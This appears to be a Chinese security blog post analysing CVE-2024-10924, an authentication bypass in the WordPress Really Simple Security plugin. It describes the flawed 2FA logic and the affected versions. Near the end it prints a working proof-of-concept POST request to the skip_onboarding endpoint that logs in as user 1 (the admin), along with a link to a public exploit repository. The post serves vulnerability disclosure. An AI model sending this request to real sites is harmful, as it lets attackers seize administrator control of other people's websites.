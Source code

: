 #  400万网站受影响！WordPress Really Simple Security 插件漏洞分析   
云梦DC  云梦安全   2024-11-20 01:05  
  
近日，WordPress 插件**Really Simple Security**  
（原名 Really Simple SSL）被披露存在一个高危的认证绕过漏洞。该漏洞可能导致攻击者远程获得受影响网站的管理权限，危害极大。本篇文章将对漏洞细节、影响范围、修复情况及防护措施进行全面分析。![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpxiaKyI98MJklzBBWSGT8MAicmSuPZcKrZYh134OtlntbJtycHxTzWfPWZGr88P9JaESgyLZsmrGdyA/640?wx_fmt=png&from=appmsg "")  
  
#### 漏洞概述  
  
CVE-2024-10924 是 Really Simple Security 插件的认证绕过漏洞，漏洞评分高达**9.8（CVSS）**  
，属于严重级别。漏洞利用了插件的check_login_and_get_user  
 函数中的错误处理，允许攻击者在启用双因素认证（2FA）的情况下，冒充任意用户（包括管理员）登录受影响的网站。![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpxiaKyI98MJklzBBWSGT8MAicmSuPZcKrZYh134OtlntbJtycHxTzWfPWZGr88P9JaESgyLZsmrGdyA/640?wx_fmt=png&from=appmsg "")  
  
  
此漏洞影响了插件**9.0.0 至 9.1.1.1 版本**  
，包括免费和付费版本，波及超过**400万 WordPress 网站**  
。Wordfence 安全研究员 István Márton 警告称，该漏洞非常容易被脚本化，从而引发针对 WordPress 网站的大规模自动化攻击。  
#### 漏洞细节分析  
  
**Really Simple Security 插件的核心功能是增强 WordPress 网站的安全性**  
，包括启用 HTTPS、提供双因素认证等。然而，该漏洞的成因却来自插件对 2FA 认证逻辑的错误处理。  
  
具体来说，漏洞位于check_login_and_get_user  
 函数，该函数负责验证用户的身份。然而，由于逻辑缺陷，攻击者可以通过构造恶意请求绕过身份验证。例如：  
- **函数中未正确处理认证失败的情况**  
，直接返回了管理员凭据；  
  
- **缺乏对认证数据完整性的验证**  
，导致攻击者可以伪造凭据。  
  
这种设计缺陷使得攻击者可以直接冒充管理员登录，获得对网站的完全控制权限。  
##### 利用场景  
  
插件的 REST API 暴露了skip_onboarding  
 接口，允许未经验证的用户提交登录请求。通过构造包含伪造参数的 POST 请求，攻击者可以利用该接口跳过 2FA 验证并获取登录状态。  
##### PoC 请求示例  
```
POST /wp-json/reallysimplessl/v1/two_fa/skip_onboarding HTTP/1.1 Host: kubernetes.docker.internal User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate, br Content-Type: application/json; Connection: keep-alive Content-Length: 90 { "user_id":1, "login_nonce": "231231231", "redirect_to": "/wp-admin/" }

```  
##### 请求参数解析  
- **user_id**  
：目标用户的 ID（例如，管理员账户通常为1  
）。  
  
- **login_nonce**  
：伪造的登录令牌，插件未验证该值的真实性。  
  
- **redirect_to**  
：登录成功后的重定向目标地址，此处指向/wp-admin/  
 管理后台。  
  
poc：https://github.com/FoKiiin/CVE-2024-10924  
  
  
